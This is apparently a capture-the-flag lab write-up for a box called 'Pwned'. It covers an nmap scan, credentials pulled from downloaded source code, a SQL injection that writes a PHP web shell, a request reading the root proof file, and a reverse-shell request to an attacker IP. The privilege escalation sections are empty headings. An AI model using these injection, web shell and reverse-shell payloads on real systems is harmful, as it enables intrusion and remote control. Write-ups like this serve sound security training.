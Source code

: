 #Pwned 
```IP
192.168.192.147
```

## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.192.147 -vvv -p- -oN enum/full
```
The output being:
```
Host: 192.168.192.147 ()        Status: Up
Host: 192.168.192.147 ()        Ports: 22/open/tcp//ssh//OpenSSH 8.4 (protocol 2.0)/, 111/closed/tcp//rpcbind///, 139/closed/tcp//netbios-ssn///, 443/closed/tcp//https///, 445/closed/tcp//microsoft-ds///, 17445/open/tcp//unknown///, 30455/open/tcp//http//nginx 1.18.0/, 50080/open/tcp//http//Apache httpd 2.4.46 ((Unix) PHP|7.4.15)/       Ignored State: filtered (65527)
```
# Enumeration

## HTTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240925124008.png?raw=true)

admin:admin

download issuetracker.zip
analyze code
```
cat issuetracker/src/main/java/com/issue/tracker/issues/IssueController.java
```
issue_user:ManagementInsideOld797
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240926094027.png?raw=true)

sql credentials
possible sqli

```
/issue/checkByPriority?priority=' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

```
POST /issue/checkByPriority?priority=%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%22%63%6d%64%22%5d%29%3b%20%3f%3e%27%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%73%72%76%2f%68%74%74%70%2f%63%6d%64%2e%70%68%70%27%20%2d%2d%20%2d HTTP/1.1

Host: 192.168.169.147:17445

Accept-Language: en-US

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Cookie: JSESSIONID=89166675E7FFFB6F2143ED1480750891

Connection: keep-alive


```

```
http://192.168.169.147:30455/cmd.php?cmd=cat%20/root/proof.txt
```

reverse shell method
```
GET /cmd.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.223%2F443%200%3E%261 HTTP/1.1

Host: 192.168.169.147:30455

Accept-Language: en-US

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Cookie: JSESSIONID=89166675E7FFFB6F2143ED1480750891

Connection: keep-alive
```


# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz


